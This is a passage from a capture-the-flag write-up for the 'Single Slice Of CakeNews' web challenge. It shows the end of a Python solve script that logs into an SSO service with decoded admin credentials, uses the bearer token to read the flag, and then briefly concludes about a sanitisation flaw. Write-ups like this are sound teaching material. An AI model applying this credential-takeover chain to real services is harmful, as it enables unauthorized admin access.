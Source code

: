 ```python
        print(f"[+] Decoded admin credentials: {admin_creds.get('email')} / {admin_creds.get('password')}")
        r_sso_login = requests.post(urljoin(sso_base_url, "/api/login"), json=admin_creds, timeout=10)
        sso_token = r_sso_login.json().get('token')
        print("[+] Successfully logged into SSO as admin.")
        sso_auth_header = {'Authorization': f'Bearer {sso_token}'}
        r_sso_profile = requests.get(urljoin(sso_base_url, "/api/profile"), headers=sso_auth_header, timeout=10)
        flag = r_sso_profile.json().get('flag')
        print("\n" + "="*74)
        print(f"    [!] FLAG FOUND: {flag}")
        print("="*74)
    except Exception as e:
        print(f"[-] An error occurred: {e}")

if __name__ == "__main__":
    main()
```

### Conclusion

The "Single Slice Of CakeNews" challenge was a fantastic example of a realistic web application vulnerability. It was about identifying a simple logic error failing to sanitize one field out of two and understanding how to chain that vulnerability through the application's features to get the flag. 

A big thanks to Mushroom for the collaboration in solving this challenge.
{% endraw %}
